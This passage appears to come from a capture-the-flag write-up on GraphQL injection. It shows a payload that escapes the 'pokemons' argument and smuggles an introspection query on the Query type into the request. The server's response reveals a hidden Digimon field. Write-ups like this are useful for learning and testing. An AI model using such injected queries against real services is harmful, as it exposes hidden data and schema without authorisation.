 In the query result, we can see that the schema has type `Pokemon`, tons of `Digimon0x........`, and `Query`.

Now, let's dive deeper into type `Query` to see if there are any **hidden queries**.

**Type `Query`:**
```json
{
  "pokemons": [
    "anything\"){id},injected_query:__type(name:\"Query\"){name,fields{name,type{name,kind}}}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "fields": [
        {
          "name": "hello",
          "type": {
            "kind": "SCALAR",
            "name": "String"
          }
        },
        {
          "name": "bye",
          "type": {
            "kind": "SCALAR",
            "name": "String"
          }
        },
        {
          "name": "pokemon",
          "type": {
            "kind": "OBJECT",
            "name": "Pokemon"
          }
        },
        {
          "name": "digimOwOUwURawrn38408375018458385023841203489738570123",
          "type": {
            "kind": "OBJECT",
            "name": "Digimon0x000141a0"
          }
        }
      ],
      "name": "Query"
    }
  }
}
```
